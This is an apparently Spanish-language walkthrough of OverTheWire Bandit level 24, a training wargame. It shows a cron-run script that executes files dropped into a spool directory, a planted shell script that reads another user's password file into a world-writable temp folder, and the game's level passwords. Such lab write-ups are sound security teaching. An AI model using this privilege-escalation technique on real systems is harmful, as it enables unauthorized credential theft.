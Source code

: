 # Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
User: bandit23
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
Host: bandit.labs.overthewire.org  
Port: 2220

## Solución
```
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/42101656
bandit23@bandit:/etc/cron.d$ cd /tmp/42101656
bandit23@bandit:/tmp/42101656$ touch pass
bandit23@bandit:/tmp/42101656$ nano script.sh
bandit23@bandit:/tmp/42101656$ cat script.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/42101656/pass
bandit23@bandit:/tmp/42101656$ chmod 777 -R .
bandit23@bandit:/tmp/42101656$ ls -lah
total 408K
drwxrwxrwx    2 bandit23 bandit23 4.0K Feb 27 18:09 .
drwxrwx-wt 1328 root     root     396K Feb 27 18:10 ..
-rwxrwxrwx    1 bandit23 bandit23    0 Feb 27 18:05 pass
-rwxrwxrwx    1 bandit23 bandit23   64 Feb 27 18:09 script.sh
bandit23@bandit:/tmp/42101656$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/42101656$ cat pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/42101656$
```
## Notas adicionales
* chmod se utiliza para cambiar los permisos de un archivo.
* El número octal 777 indica dar todos los permisos a todos los usuarios, grupos y otras personas.
* La opción -R es para indicar que se cambie los permisos a todos los archivos recursivamente.
## Referencias
